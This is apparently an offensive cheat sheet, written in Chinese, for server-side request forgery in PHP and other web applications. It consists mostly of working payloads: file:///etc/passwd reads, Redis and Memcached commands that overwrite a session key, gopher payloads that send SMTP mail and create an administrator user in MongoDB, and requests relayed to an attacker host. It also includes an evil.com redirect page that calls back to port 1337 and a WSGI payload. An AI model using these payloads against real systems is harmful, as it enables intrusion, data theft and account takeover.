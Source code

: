 # SSRF

PHP函数：

+ file_get_contents

+ fsockopen

+ curl_exec

+ fopen

+ mdf_file

## 协议

(1)HTTP/HTTPS

```html
ssrf.php?page=http://127.0.0.1:80
ssrf.php?page=http://127.0.0.1:8080
ssrf.php?page=https://127.0.0.1
```

(2)File

```html
ssrf.php?page=file:///etc/passwd
ssrf.php?page=file://\/\/etc/passwd
```

(3)Dict

```html
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?page=dict://服务器地址:11111/
```

(4)文件传输协议

```html
ftp://user:password@目标站点/  //FTP协议
tftp://目标站点/../file.txt //TFTP协议
sftp://目标站点:11111/  //SFTP协议
```

(5)LDAP

```html
ssrf.php?page=ldap://localhost:11211/%0astats%0aquit
```

(6)SMB

```html
ssrf.php?page=smb://server/share
```

(7)Redis/Memcached

Redis
```html
/proxy?url=redis://Redis服务器地址:6379/set%20mykey%20myvalue
```

Memcached
```html
/proxy?url=memcached://Memcached服务器地址:11211/stats
```

```html
/proxy?url=memcached://Memcached服务器地址:11211/set%20session_user_id%200%20200%2010
//用值0覆盖Memcached中应用程序的会话密钥（session_user_id）
/proxy?url=memcached://Memcached服务器地址:11211/get%20session_user_id
//获取密钥session_user_id的值，用于验证先前的设置命令是否成功
```

(8)Gopher

格式
```html
gopher://host:port/selector
```

与SMTP通信发送电子邮件
```html
GET /ssrf?url=gopher://内部SMTP服务器地址:25/_MAIL%20FROM%3A%3Csnowwolf%40test.com%3E%0D%0ARCP%54%20TO%3A%3Cuser%40example.com%3E%0D%0ADATA%0D%0ASubject%3A%20SSRF%20Test%0D%0A%0D%0AThis%20is%20an%20email%20sent%20via%20SSRF%20exploit.%0D%0A.%0D%0AQUIT%0D%0A HTTP/1.1
```

SMTP页面
```html
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@ghostwolflab.com>',
                'RCPT To: <admin@test.com>',
                'DATA',
                'Subject: @security!',
                'Hello, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

创建MongoDB用户
```html
gopher://内部MongoDB服务器地址:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%07%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00%00%00administrator%00%00%00%00
```

HTTP
```html
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

回连1337端口
```html
创建evil.com/redirect.php页面
<?php
header("Location: gopher://攻击者主机:1337/_SSRF%0ATest!");
?>

访问地址
https://目标WEB应用程序/?q=http://evil.com/redirect.php
```


(9)Netdoc

```html
ssrf.php?url=netdoc:///etc/passwd
```

## 利用

(1)WSGI

易受攻击的WSGI应用程序
```html
def application(environ, start_response):
//环境变量包含SSRF攻击期间服务器传递的信息
    url = environ.get('HTTP_X_TARGET_URL')
    if url and url.startswith("http"):
    //验证不足，还应该考虑其它请求协议和内部资源的访问
        content = urlopen(url).read()
        //如果url来自不受信任的来源，则可能出现SSRF漏洞
```

payload
```html
gopher://WSGI服务器地址:8000/_%00%1A%00%00%0A%00WSGI_FILE%0C%00/tmp/test.py
```

脚本

[WSGI](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/SSRF/WSGI.py)
